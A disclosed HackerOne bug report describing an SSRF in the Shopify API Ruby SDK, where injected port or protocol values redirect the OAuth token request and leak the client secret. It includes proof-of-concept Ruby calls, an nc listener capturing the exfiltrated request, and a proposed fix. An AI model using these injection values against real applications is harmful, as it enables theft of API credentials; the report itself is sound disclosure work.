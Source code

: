 # H1514 Shopify API ruby SDK session setup lacks input validation, resulting in SSRF and leakage of client secret

## Report Details
- **Report ID**: 423437
- **URL**: https://hackerone.com/reports/423437
- **State**: Closed
- **Severity**: none
- **Submitted**: 2018-10-13T18:08:20.646Z
- **Disclosed**: 2019-04-05T13:44:34.501Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi team,

The [Shopify API ruby SDK](https://github.com/shopify/shopify_api) has the ability for the developer to interact with their shop's REST API. When setting up the gem, a code structure similar to the one below may be used to set up the connection:

```ruby
require 'shopify_api'

class SomeController < ApplicationController
  def index
    ShopifyAPI::Session.setup secret: '<secret>'

    session = ShopifyAPI::Session.new('some-shop.myshopify.com')

    access_token = session.request_token(params)
  end
end
```

When the `ShopifyAPI::Session` class is initialized, the following code is executed:

```ruby
def prepare_url(url)
  return nil if url.blank?
  # remove http:// or https://
  url = url.strip.gsub(/\Ahttps?:\/\//, '')
  # extract host, removing any username, password or path
  shop = URI.parse("https://#{url}").host
  # extract subdomain of .myshopify.com
  if idx = shop.index(".")
    shop = shop.slice(0, idx)
  end
  return nil if shop.empty?
  shop = "#{shop}.#{myshopify_domain}"
  port ? "#{shop}:#{port}" : shop
rescue URI::InvalidURIError
  nil
end
```

At the bottom, right above the `rescue` keyword, it can be observed that if a port is given, it is appended to the shop URL. This means that if the `setup` method is invoked with a `port` parameter, it'll be appended after the parsed hostname. Here is an example:

```
[1] pry(main)> require 'shopify_api'
=> true
[2] pry(main)> ShopifyAPI::Session.setup port: '80', secret: ''
=> {:port=>"80", :secret=>""}
[3] pry(main)> session = ShopifyAPI::Session.new("test.myshopify.com")
=> #<ShopifyAPI::Session:0x00007fc5b2051070 extra={}, token=nil, url="test.myshopify.com:80">
```

As can be seen above, the resulting instance variable called `url` now contains the given `port` value. When the `request_token` method is called, the following code gets executed:

```ruby
def access_token_request(code)
  uri = URI.parse("#{protocol}://#{url}/admin/oauth/access_token")
  https = Net::HTTP.new(uri.host, uri.port)
  https.use_ssl = true
  request = Net::HTTP::Post.new(uri.request_uri)
  request.set_form_data({"client_id" => api_key, "client_secret" => secret, "code" => code})
  https.request(request)
end
```

The problem that arises here, is that the URL gets parsed a second time and then uses the parsed information from the newly constructed URL instead of what the class was initialized with. This allows an attacker to inject an arbitrary domain through the `port` and `protocol` parameter when calling the `setup` method. An example:

```ruby
require 'shopify_api'

ShopifyAPI::Session.setup protocol: 'https', secret: '', port: '@127.0.0.1/?'

session = ShopifyAPI::Session.new('some-shop.myshopify.com')

access_token = session.request_token({'hmac' => 'd54d830d05601f0b4247f654e4c57b51318be655f40c7a7119141c98a23f6815', 'timestamp': '2000000000'})
```

The code above will exfiltrate the `client_secret`, `client_id`, and `code` to `127.0.0.1:443`. An excerpt of the captured request can be found below. The `hmac` above is a valid signature for the given timestamp (in a far distant future) and an empty secret.

```
$ nc -l -n -vv -p 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from [127.0.0.1] port 443 [tcp/*] accepted (family 2, sport 60286)
POST /?/admin/oauth/access_token HTTP/1.1
Host: 127.0.0.1:443
Connection: Keep-Alive
Accept-Encoding: gzip
Content-Length: 29
Accept: */*
User-Agent: Ruby
Content-Type: application/x-www-form-urlencoded

client_id&client_secret=&code
```

The same can be achieved with the `protocol` parameter:

```ruby
ShopifyAPI::Session.setup protocol: 'https://127.0.0.1/?', secret: ''

session = ShopifyAPI::Session.new('some-shop.myshopify.com')

access_token = session.request_token({'hmac' => 'd54d830d05601f0b4247f654e4c57b51318be655f40c7a7119141c98a23f6815', 'timestamp': '2000000000'})
```

## Impact

This vulnerability can only be exploited if an attacker can influence the `port` or `protocol` parameter when given to the `setup` method. This seems to be rather unlikely to happen. However, I don't believe that the usage of a Gem should unnecessarily expose the user to arbitrary security vulnerabilities. Given that this may impact their local network and may leak their API keys, I decided to bring this to your attention.

Here's what a fix could look like:

```diff
diff --git a/lib/shopify_api/session.rb b/lib/shopify_api/session.rb
index 937bbd0..bd8fdaf 100644
--- a/lib/shopify_api/session.rb
+++ b/lib/shopify_api/session.rb
@@ -16,7 +16,18 @@ module ShopifyAPI
     class << self

       def setup(params)
-        params.each { |k,value| public_send("#{k}=", value) }
+        params.each do |key, value|
+          case key
+          when 'port', :port
+            sanitized_value = value.to_i
+          when 'protocol', :protocol
+            sanitized_value = protocol =~ /\Ahttps?\Z/ ? protocol : 'https'
+          else
+            sanitized_value = value
+          end
+
+          public_send("#{key}=", sanitized_value)
+        end
       end

       def temp(domain, token, &block)
```

## Attachments
No attachments
